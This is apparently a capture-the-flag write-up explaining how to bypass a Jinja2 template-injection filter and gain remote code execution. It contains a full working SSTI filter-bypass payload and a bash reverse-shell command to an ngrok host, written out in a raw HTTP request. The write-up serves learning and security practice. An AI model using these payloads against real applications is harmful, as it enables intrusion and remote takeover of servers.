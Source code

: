 ```yaml
---
description: Jinja2 SSTI filter bypass
---
```


# Strong

> This type of challenges is created to be solved at the end, but you know it's a matter of time so who is the faster?
>
> Link: http://128.199.3.34:1234/\
>
>
> **Author:** Kahla

This was a Jinja2 template injection challenge, with the following filter:

```python
re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",request.form['name'])
```

As we can see, the filter is quite extensive!



![](<../../.gitbook/assets/Screenshot 2022-05-13 at 6.06.52 PM.png>)

### Bypassing "\{{" and "\}}"

This one is rather straightforward. We could still get code execution through an if-else statement:

`{% if PAYLOAD %}{% endif %}`

### Bypassing ".", "\[", "]"

We could bypass the use of `.` by using the `attr` filter. For instance, `request|attr('args')` is the same as `request.args`.

Sometimes, we need to access elements of a list or dictionary. This was a bit more tricky but looking into the [Built-in Filters](https://jinja.palletsprojects.com/en/3.1.x/templates/#builtin-filters) part of the documentation, we can find some useful information.

To get the first and last items of a list, we could use `|first` and `|last` respectively.

If we need to access items in a dictionary, we could first convert them to a list using `|list`, then access the first and last elements.

### Bypassing "\_", "\\", "class", "subclasses", "getitem"

In order for our RCE payload to work, I needed access to `__class__`, `__subclassess__` and `__getitem__`.

We needed a way to construct something like `()|attr('__class__')`. The `\` character was banned, so using octal or hexadecimal numbers to construct the string was not possible.&#x20;

One easy way to get banned characters into a string was to use `request.args` - this is a MultiDict object containing the GET request parameters.

For example, this allowed us to get the `__` string:

```http
POST /?__=a

...

name=... request|attr('args')|list|first ...
```

Bypassing the `class`, `subclasses`, and `getitem` strings could be done by using the `|lower` filter. For instance: `'CLASS'|lower`.

All that's left to do is to join the `class` string with the preceding and ending `__` characters. This can be achieved using `|join`.

Viola, the following will give us `().__class__`:

`()|attr((request|attr('args')|list|first,'CLASS'|lower,request|attr('args')|list|first)|join)`

This can then be extended to construct almost any arbitrary payload.

### Gaining RCE

To get RCE, a typical method is through `().__class__.__subclasses__.__getitem__(x)` where `x` corresponds to the index of the `subprocess.Popen` class.&#x20;

We do not know the value of `x` in this case, but we can still blindly bruteforce the value of `x` by submitting our RCE payload with different `x` values until we receive a shell.

In order to complete our RCE payload, I needed the `.` character for my callback domain, and the `"` character for the bash command:

`bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/14003 0>&1"`

These characters can be obtained in a similar fashion as `__`. Adding a second GET request parameter, we can access `.` through `request|attr('args')|list|last`.&#x20;

As for `"`, we could add another POST request parameter and access it through `request|attr('form')|list|last)|join`.

### Final Payload

It might not have been the most elegant, but it got the job done!

`POST /?__=a&.=b HTTP/1.1`&#x20;

`Host: 128.199.3.34:1234`&#x20;

`Content-Length: 661`&#x20;

`name={% if ()|attr((request|attr('args')|list|first,'CLASS'|lower,request|attr('args')|list|first)|join)|attr((request|attr('args')|list|first,'base',request|attr('args')|list|first)|join)|attr((request|attr('args')|list|first,'SUBCLASSES'|lower,request|attr('args')|list|first)|join)()|attr((request|attr('args')|list|first,'GETITEM'|lower,request|attr('args')|list|first)|join)(276)(('bash -c ',request|attr('form')|list|last,'bash -i >%26 /dev/tcp/8',request|attr('args')|list|last,'tcp',request|attr('args')|list|last,'ngrok',request|attr('args')|list|last,'io/14003 0>%261',request|attr('form')|list|last)|join,shell=True,stdout=-1) %}{% endif %}&"`
